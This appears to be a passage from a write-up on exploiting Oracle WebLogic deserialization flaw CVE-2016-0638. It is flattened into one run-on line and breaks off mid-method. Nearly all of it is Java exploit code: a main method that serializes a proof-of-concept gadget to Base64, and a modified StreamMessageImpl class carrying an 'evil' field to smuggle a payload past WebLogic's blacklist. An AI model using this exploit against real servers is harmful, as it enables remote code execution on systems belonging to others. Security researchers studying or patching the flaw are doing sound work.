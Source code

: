StreamMessageImpl(map);    }    public static void main(String[] args) throws IOException, ClassNotFoundException {        ByteArrayOutputStream fout = new ByteArrayOutputStream();        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fout);        objectOutputStream.writeObject(getPoc3());        objectOutputStream.close();        System.out.println(Base64.getEncoder().encodeToString(fout.toByteArray()));//        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(fout.toByteArray());//        ObjectInputStream inputStream = new ObjectInputStream(byteArrayInputStream);//        inputStream.readObject();    }}StreamMessageImpl类参照前文：package weblogic.jms.common;import java.io.*;import java.lang.reflect.InvocationTargetException;import javax.jms.Destination;import javax.jms.JMSException;import javax.jms.MessageEOFException;import javax.jms.MessageNotWriteableException;import javax.jms.StreamMessage;import weblogic.jms.JMSClientExceptionLogger;import com.weblogcVul.CVE_2016_0638;public final class StreamMessageImpl extends MessageImpl implements StreamMessage, Externalizable {    private static final byte EXTVERSION1 = 1;    private static final byte EXTVERSION2 = 2;    private static final byte EXTVERSION3 = 3;    private static final byte VERSIONMASK = 127;    static final long serialVersionUID = 7748687583664395357L;    private static final byte UNKNOWN_TYPECODE = 0;    private static final byte BOOLEAN_TYPE = 1;    private static final byte BYTE_TYPE = 2;    private static final byte CHAR_TYPE = 3;    private static final byte DOUBLE_TYPE = 4;    private static final byte FLOAT_TYPE = 5;    private static final byte INT_TYPE = 6;    private static final byte LONG_TYPE = 7;    private static final byte SHORT_TYPE = 8;    private static final byte STRING_UTF_TYPE = 9;    private static final byte STRING_UTF32_TYPE = 10;    private static final byte BYTES_TYPE = 11;    private static final byte NULL_TYPE = 12;    private static final String[] TYPE_CODE_STRINGS = new String[]{"invalid type code", "boolean", "byte", "char", "double", "float", "integer", "long", "short", "String", "String", "byte array", "null object"};    private static final String ERROR_MSG_SEGMENT = ". Previous attempt to read bytes from the stream message is not complete. As per the JMS standard, if the readBytes method does not return the value -1, a subsequent readBytes call must be made in order to ensure that there are no more bytes left to be read in. For more information, see the JMS API doc for the method readBytes in interface StreamMessage";    private boolean readingByteArray;    private int available_bytes;    private transient PayloadStream payload;    private transient boolean copyOnWrite;    private transient BufferOutputStream bos;    private transient BufferInputStream bis;    private Object evil ;    public StreamMessageImpl() {    }    public StreamMessageImpl(Object a) {        this.evil = a;    }    public StreamMessageImpl(StreamMessage var1) throws IOException, JMSException {        this(var1, (Destination)null, (Destination)null);    }    public StreamMessageImpl(StreamMessage var1, Destination var2, Destination var3) throws IOException, JMSException {        super(var1, var2, var3);        if (!(var1 instanceof StreamMessageImpl)) {            var1.reset();        }        try {            while(true) {                this.writeObject(var1.readObject());            }        } catch (MessageEOFException var5) {            this.reset();            this.setPropertiesWritable(false);        }    }    public byte getType() {        return 5;    }    public void nullBody() {        this.payload = null;        this.copyOnWrite = false;        this.bis = null;        this.bos = null;        this.readingByteArray = false;        this.available_bytes = 0;    }    private void putTypeBack() throws IOException {        if (!this.readingByteArray) {            this.bis.unput();        }    }    private String readPastEnd() {        return JMSClientExceptionLogger.logReadPastEndLoggable().getMessage();    }    private String readPastEnd3(int var1) {        return JMSClientExceptionLogger.logReadPastEnd3Loggable(var1).getMessage();    }    private String streamReadError() {        return JMSClientExceptionLogger.logStreamReadErrorLoggable().getMessage();    }    private String streamReadError(int var1) {        return JMSClientExceptionLogger.logReadErrorLoggable(var1).getMessage();    }    private String streamWriteError() {        return JMSClientExceptionLogger.logStreamWriteErrorLoggable().getMessage();    }    private String streamWriteError(int var1) {        return JMSClientExceptionLogger.logWriteErrorLoggable(var1).getMessage();    }    private String streamConversionError(String var1, String var2) {        return JMSClientExceptionLogger.logConversionErrorLoggable(var1, var2).getMessage();    }    private byte readType() throws JMSException {        this.decompressMessageBody();        this.checkReadable();        if (this.readingByteArray) {            return 11;        } else {            try {                return this.bis.readByte();            } catch (EOFException var2) {                throw new weblogic.jms.common.MessageEOFException(this.readPastEnd3(0), var2);            } catch (IOException var3) {                throw new weblogic.jms.common.JMSException(this.streamReadError(0), var3);            }        }    }    private void writeType(byte var1) throws JMSException {        this.checkWritable();        try {            this.bos.writeByte(var1);        } catch (IOException var3) {            throw new weblogic.jms.common.JMSException(JMSClientExceptionLogger.logStreamWriteErrorLoggable().getMessage(), var3);        }    }    public boolean readBoolean() throws JMSException {        byte var1 = this.readType();        try {            switch(var1) {                case 1: